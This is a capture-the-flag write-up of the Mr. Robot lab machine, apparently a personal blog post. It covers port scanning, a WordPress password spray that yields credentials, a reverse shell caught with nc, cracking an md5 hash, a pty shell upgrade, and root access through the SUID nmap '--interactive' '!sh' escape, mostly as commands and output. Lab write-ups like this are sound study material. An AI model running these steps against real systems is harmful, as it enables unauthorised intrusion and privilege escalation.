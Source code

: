 ```yaml
---
layout: post
title: Elliot
date: 09-05-2025
categories: [medium]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQQ-wEVmL83jyrWR4RDI9C3wvdlGdmiheafEg&s"
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }
## Scanning
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 05:42 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00040s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8D:AF:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.07 seconds


```

## Enumatration 
Testing using burb suite i hghave identfy the user elliot is present by testing one password and spray the user lists.
Using burbsuite
![Screenshot From 2025-05-09 05-57-04](https://github.com/user-attachments/assets/c70dbb6e-24c7-4d27-8cb7-7eb59af5723e)


```
elliot:ER28-0652
```

## Initial access
 using pntest monkey to have the reverse shell. Under conditio i have truiied to see in wp-contents.php but cant access this place. But in every place with an error there is an error page now we can use this as out gate way execution to get the initial access of the target.
```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/hack]
└─$ nc -lnvp 1234                
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 54157
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 06:09:58 up 33 min,  0 users,  load average: 0.01, 0.03, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
![Screenshot From 2025-05-09 06-10-10](https://github.com/user-attachments/assets/b5f2f009-6eca-4314-80ee-ef0abeee0c34)

## Privilge escalation 
we can see there is mr robot in the user and the passwoird key md5.
```
$ cd robot
$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```
## Cracking the password
![Screenshot From 2025-05-09 06-52-10](https://github.com/user-attachments/assets/9554366f-29c1-40d2-ac8b-faaa566ad33f)
Once elliot sayed every one uses simple and common password.

```
abcdefghijklmnopqrstuvwxyz: abcdefghijklmnopqrstuvwxyz

```
## Try switch the user to robot
Initilally the root access will fail because the terminal is not stable.

```
daemon@linux:/tmp$ su robot
su robot
su: must be run from a terminal
daemon@linux:/tmp$ script /dev/null -c bash
script /dev/null -c bash
daemon@linux:/tmp$ su robot 
Password: 
su: Authentication failure
daemon@linux:/tmp$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/tmp$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/tmp$ whoami
whoami
robot

```

## Privilage escalation and gain access

SUID file
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 68K Feb 12  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 93K Feb 12  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 37K Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 32K Feb 17  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 41K Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 67K Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 152K Mar 12  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 431K May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9.4K Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 11K Feb 25  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)

```
## Exploiting NMAP

```
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 

Bogus command -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# pwd
pwd
/root
# ls
ls
firstboot_done	key-3-of-3.txt
# 


```
![Screenshot From 2025-05-09 06-54-26](https://github.com/user-attachments/assets/5fd7e122-53f6-471f-9598-f55ddbf07119)

